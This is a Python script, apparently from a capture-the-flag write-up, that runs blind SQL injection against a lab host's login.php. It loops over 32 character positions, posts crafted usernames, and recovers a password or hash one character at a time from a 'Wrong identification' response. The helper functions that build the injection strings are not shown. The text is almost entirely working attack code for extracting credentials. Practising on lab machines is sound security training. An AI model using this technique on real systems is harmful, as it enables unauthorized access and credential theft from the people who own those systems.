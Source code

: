 ``` python


# password could be in hashed format or plaintext
alpha1 = 'abcdef'
alpha2 = 'ghijklmnopqrstuvwxyz'
num1 = '01234'
num2 = '56789'

# Password variable
passwd = ''

for i in range(1,33):
    if SQLsplit(i) == "alpha1":
        for a in alpha1:
            payload = {'username':SQLstring(i,a), 'password':'noobsec'}
            r = requests.post('http://10.10.10.73/login.php', data=payload)
            if "Wrong identification" in r.text:
                passwd += a
                print(a,end='',flush=True)
                break

    elif SQLsplit(i) == "alpha2":
        for a in alpha2:
            payload = {'username':SQLstring(i,a), 'password':'noobsec'}
            r = requests.post('http://10.10.10.73/login.php', data=payload)
            if "Wrong identification" in r.text:
                passwd += a
                print(a,end='',flush=True)
                break
            
    elif SQLsplit(i) == "num1":
        for n in num1:
            payload = {'username':SQLstring(i,n), 'password':'noobsec'}
            r = requests.post('http://10.10.10.73/login.php', data=payload)
            if "Wrong identification" in r.text:
                passwd += n
                print(n,end='',flush=True)
                break

    
    else:
        for n in num2:
            payload = {'username':SQLstring(i,n), 'password':'noobsec'}
            r = requests.post('http://10.10.10.73/login.php',data=payload)
            if "Wrong identification" in r.text:
                passwd += n
                print(n,end='',flush=True)
                break


# print('\n')
print('\nPassword or Hash is:\t'+passwd+'\n')
```
